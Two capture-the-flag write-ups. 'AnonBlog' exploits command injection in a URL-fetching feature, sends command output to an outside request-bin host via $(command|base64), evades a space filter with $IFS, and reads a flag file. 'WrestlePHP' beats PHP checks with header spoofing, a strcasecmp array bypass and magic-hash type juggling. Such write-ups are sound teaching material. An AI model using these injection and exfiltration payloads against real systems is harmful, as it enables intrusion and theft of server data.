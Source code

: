 # AnonBlog

Challenge Description
>There is a place Anonymous blog, people say you cannot share link there because it's their policy. They say sharing link leads to many security issues, though I think it's just opposite based on their specific context(their new feature)

[http://nicehellonice-env.eba-p2umpa4t.us-east-1.elasticbeanstalk.com](http://nicehellonice-env.eba-p2umpa4t.us-east-1.elasticbeanstalk.com)

It was a site where we can add posts through /post.
Cross Site Scripting was possible. At first I thought we use an xss payload to grab the cookie of the admin but it seemed like xss was just a rabbithole.

Checking the robots.txt of the site we find /features.txt that says
```
Newly added feature: Special Hyper Linking!
 - Automatically converts links into a hyperlink.
 - Try setting any URL in the Content, and see it!!
 NOTE: For some dumb reason, link-sharing was not allowed since day 1.
    But due to requests from the users we made it available for it. But
    you still cannot share links, so this application clones the URL
    locally (using curlY "ree--quest-TOR")*, then returns it to you
    from the application itself.
----------
*pronounced "curly requester"
```
So in my head I thought it as of
`curl https://site`
being executed whenever http/https word is used. So next step was to get code execution.

At first I tried common bypasses like `&&`, `||`,`;` but since the output was not  being shown, I was not sure if the command was being executed.

So I thought of another approach to send command output to a url. I quickly setup a request bin url and crafted my payload using command substitution like

`http://requestbin.net/r/1bvgn5b1/?output=$(command|base64)`
So what this will look like 

```sh
curl http://requestbin.net/r/1bvgn5b1/?output=$(command|base64)
$(command|base64) get executed and base64 output would be appended to output =
curl http://requestbin.net/r/1bvgn5b1/?output=base64output
```

And through http://requestbin.net/r/1bvgn5b1?inspect I could view the requests being made to the site.

Now that we have command execution with proper output. It was time to find the flag. Actually  using space in command was blocked. So I had to use $IFS instead for every command that contains space.




For example: `$(ls -la)` became `$(ls$IFS-la)`.



I looked around and found a file named `zhululu_2e3817293fc275dbee74bd71ce6eb056_FLAG_4e4d6c332b6fe62a63afe56171fd3725.txt` which contained the flag.



Then I read the file using  `$(base64$IFS-w$IFS\0$IFS/zh*)`


```sh
Sidenote
There is \ before 0 because $IFS0 would simply escape 0 it is behaviour of $IFS to escape suffix if there is no use of symbols like -, | etc.
```

On the request bin inspect tab I recieved

`
Q29uZ3JhdHMhISBZb3UgbWFkZSB0aWxsIHRoZSBmbGFnIPCfjokKCgpHcmFiIGl0LCBpdCdzIGJlbG93OgpoYWNrdG9iZXJmZXN0X2N0ZntzaGVsbF9rZWtfcmljZV9mYmY4NjE5ZmY3ZjE1NjEzOWNkYWY0ZDdlM2UwNmQ3NX0K
`

Decoding the base64 we get 


```
Congrats!! You made till the flag 🎉
Grab it, it's below:
hacktoberfest_ctf{shell_kek_rice_fbf8619ff7f156139cdaf4d7e3e06d75}
```
`hacktoberfest_ctf{shell_kek_rice_fbf8619ff7f156139cdaf4d7e3e06d75}`






# WrestlePHP

 Challenge Description
>Can you beat PHP?

>Here's something that could help you out
>7068702e30646179676f642e78797a

Hex Decoding 7068702e30646179676f642e78797a gives php.0daygod.xyz
On visiting the site we are greeted with source code of the chall php.

```php
 <?php

    if($_SERVER['HTTP_USER_AGENT'] != "Yes, I am a human."){
        die("You are a bot, mate!");
    } else echo "Nice! Now that we know you are a human, you can proceed further.\n\n";

    $flag = array("hacktoberfest_ctf{");
    if(apache_request_headers()["Sagarmatha-Hacktoberfest-CTF"] == "https://hacktober.tk/"){
        array_push($flag, "you");
    }
    
    if(isset($_GET['hello']) && $_GET['hello'] === "hi"){
        array_push($flag, "can't");
    }
    
    if($_GET['world'] != "0x10001" && strcasecmp($_GET['world'], "0x10001") == 0){
        array_push($flag, "see");
    }
    
    if(isset($_GET['nice']) && isset($_GET['ecin']))
        if($_GET['nice'] != $_GET['ecin']){
            if(sha1($_GET['nice']) == sha1($_GET['ecin'])){            
                array_push($flag, "what");
            }        
        }
    
    if($_POST['ctf'] == md5($_POST['ctf'])){
        array_push($flag, "this");
    }
    
    if(isset($_POST['parm']) && isset($_POST['mrap'])){
        if(md5($_POST['parm']) == md5($_POST['mrap'])){
            if($_POST['parm'] != $_POST['mrap']){
                array_push($flag, "contains!");
            }
        }
    }
    
    array_push($flag, "}");
    
    echo implode('', $flag);
    
?> 

```


So lets follow along the source and solve the puzzle.
```php
if($_SERVER['HTTP_USER_AGENT'] != "Yes, I am a human."){
       die("You are a bot, mate!");
   } else echo "Nice! Now that we know you are a human, you can proceed further.\n\n";
  ```

First things first we need set out user-agent to "Yes, I am a human."

`curl -A "Yes, I am a human." https://php.0daygod.xyz/`




```php
if(apache_request_headers()["Sagarmatha-Hacktoberfest-CTF"] == "https://hacktober.tk/"){
       array_push($flag, "you");
   }
  ```
Now we need to add a header `Sagarmatha-Hacktoberfest-CTF` with value `https://hacktober.tk/`
  
`curl -A "Yes, I am a human." https://php.0daygod.xyz/ -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/"`
  



```php
   if(isset($_GET['hello']) && $_GET['hello'] === "hi"){
       array_push($flag, "can't");
   }
```
 we need to add a get variable hello and set its value to hi
 
`curl -A "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi" -"Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/"`
 
```php
   if($_GET['world'] != "0x10001" && strcasecmp($_GET['world'], "0x10001") == 0){
       array_push($flag, "see");
   }
```

So here the flag part gets appended when get value of world is not equal to 0x10001 but also on the second part of if statement for it to be 0 world must be 0x10001
Luckily there is a bug for strcmp , strcasecmp where we can pass [] to bypass the check.
`curl -A "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi&world[]=haha" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/"`


  
```php 
    if(isset($_GET['nice']) && isset($_GET['ecin']))
       if($_GET['nice'] != $_GET['ecin']){
           if(sha1($_GET['nice']) == sha1($_GET['ecin'])){            
               array_push($flag, "what");
           }        
       }
```


Here we need to pass two `get` params `nice` and `ecin` with different values but their sha1 values should be same in order for flag to be appended.
We use use the type juggling vulnerability here and pass two different value of nice and ecin but the  beginning part of their sha1 should match containg 0e.
From this [list](https://raw.githubusercontent.com/spaze/hashes/master/sha1.md) I was able to find such two words.
So lets pass them

`curl -A "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi&world[]=haha&nice=aaroZmOk&ecin=aaK1STfY" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/"`



Similarly 
```php
if($_POST['ctf'] == md5($_POST['ctf'])){
       array_push($flag, "this");
   }
```
Here we need find simlar value of ctf like in step above and pass it by POST
`md5(0e215962017) = 0e291242476940776845150308577824`

`curl -A "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi&world[]=haha&nice=aaroZmOk&ecin=aaK1STfY" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/" --data "ctf=0e215962017"`


```php if(isset($_POST['parm']) && isset($_POST['mrap'])){
       if(md5($_POST['parm']) == md5($_POST['mrap'])){
           if($_POST['parm'] != $_POST['mrap']){
               array_push($flag, "contains!");
           }
       }
   }
```
Similarly for the last piece of code we find such two words `hello24343860700` and `hello24034989169` and pass those values to post params parm and mrap

`curl -A "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi&world[]=haha&nice=aaroZmOk&ecin=aaK1STfY" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/" --data "ctf=0e215962017&parm=hello24343860700&mrap=hello24034989169"`

And thus the final one liner 
`curl -sA "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi&world[]=haha&nice=aaroZmOk&ecin=aaK1STfY" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/" --data "ctf=0e215962017&parm=hello24343860700&mrap=hello24034989169"|grep -oE "Flag: hacktoberfest_ctf{.*}"`

```Flag: hacktoberfest_ctf{3qu4l17y_1s_n07_1d3nt17y_hehe_1337_0xcafebabe_cafedead}```



